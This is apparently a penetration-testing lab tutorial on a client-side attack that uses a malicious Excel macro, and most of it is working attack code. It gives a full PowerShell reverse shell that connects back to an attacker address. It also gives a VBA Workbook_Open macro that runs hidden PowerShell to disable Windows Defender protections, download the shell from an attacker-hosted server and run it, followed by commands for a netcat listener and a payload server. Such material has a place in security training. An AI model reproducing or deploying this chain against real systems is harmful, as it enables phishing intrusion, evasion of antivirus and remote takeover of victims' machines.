 In this lab, we will be going through how to use embedded Excel Macros, to carry out a malicious client side exploit on a target machine.

Excel macros are automated tasks created using VBA (Visual Basic for Applications) in Excel. They simplify repetitive tasks by running pre-written code, either recorded or manually coded, to perform actions automatically within Excel.

Reverse powershell script:
```powershell
echo '$LHOST = "192.168.100.100"; $LPORT = 2222; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()' > 'C:\Users\Administrator\Desktop\Malicious Files\revshell.ps1'
```
# Creating the VBA Script
Excel macros run inside Visual Basic for Applications (VBA). When you wire code to the Workbook_Open event, that code fires the moment the user opens the file and clicks Enable Content.

The VBA script that will disable Windows Defender:
```
Private Sub Workbook_Open()
    Call RunPowerShellScript
End Sub

Sub RunPowerShellScript()
' Define the PowerShell script to disable Windows Defender, download the reverse shell, and execute
Dim command As String
command = "powershell.exe -nop -w hidden -command ""& {Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableBehaviorMonitoring $true; Set-MpPreference -DisableBlockAtFirstSeen $true; Set-MpPreference -DisableIOAVProtection $true; Set-MpPreference -DisablePrivacyMode $true; Invoke-WebRequest -Uri http://192.168.100.100:8000/revshell.ps1 -OutFile C:\Users\Administrator\revshell.ps1; }"""
command2 = "powershell.exe -nop -w hidden -command ""& {Start-Sleep -Seconds 5; Start-Process powershell -ArgumentList '-NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\Administrator\revshell.ps1'}"""

' Run the PowerShell script
Shell "cmd.exe /c " & command, vbHide
Shell "cmd.exe /c " & command2, vbHide
End Sub
```

# Setting up Listener and Payload Server
On the first terminal window, start a _NetCat_ listener on port _2222_:
`.\nc64.exe -lvp 2222`

In the second terminal window, we'll set up a Python server on port _8000_, simulating a scenario where the victim receives a link and visits it, which will direct them to our hosted server. This will enable the file to be downloaded directly onto the _Target Machine_.
`python -m http.server 8000`

Once the server is running, switch to the _Target Machine_ to simulate the victim opening the malicious Excel file.


